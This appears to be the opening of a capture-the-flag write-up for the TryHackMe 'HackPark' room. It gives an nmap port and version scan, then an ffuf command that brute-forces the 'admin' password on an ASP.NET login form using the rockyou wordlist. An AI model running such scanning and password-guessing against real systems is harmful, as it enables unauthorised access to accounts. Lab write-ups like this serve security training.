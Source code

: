 https://tryhackme.com/room/hackpark

NMAP output
```sh
nmap -p$(nmap -p- -Pn --min-rate=1000 -T4 $TARGET | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) -sV -Pn $TARGET -oA ${TARGET}
```
![image](https://github.com/user-attachments/assets/a781870e-2ffa-454f-bd5b-7792f3300454)



```sh
ffuf -w /usr/share/wordlists/rockyou.txt:PASS -X POST -H 'Content-Type: application/x-www-form-urlencoded' -u http://10.10.229.207/Account/login.aspx -d "__VIEWSTATE=xWW6LEUJUAbMvWoBsTu6MxMpxRO3n5AABE2qkSsKEa8yFYCGtNCvko6lyTJ5uZpFZ4KTk%2B4CMO7LFR3ei3hNmvEom07ZFk%2BFcjrqmMgQf%2BfIEpevKy2KMbD%2FDvpXDZ52B5X3uVQbmPST%2FDp0%2FZ0szQyTfM%2FZKdDDFpeVRDzp7q%2BJnp6G&__EVENTVALIDATION=qv0ciJ8OHhjjvfo8EEqYPplcg0xPXz%2Bj0h%2FllQShHP%2BoZ8%2BFinRBW7VcQAuCulujsQQ7%2BkTnmaekR%2BpeWC8jelKGahf6J3V%2B2%2FK86ej0iK1PFvS3JSq3Lc6BLYpgIm7W%2BET2jl%2BXV2TPA9aQUUNDCx3PHMNrtgz9CdJMcRRCCmhS6NyR&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=PASS&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in" -fw 786
```
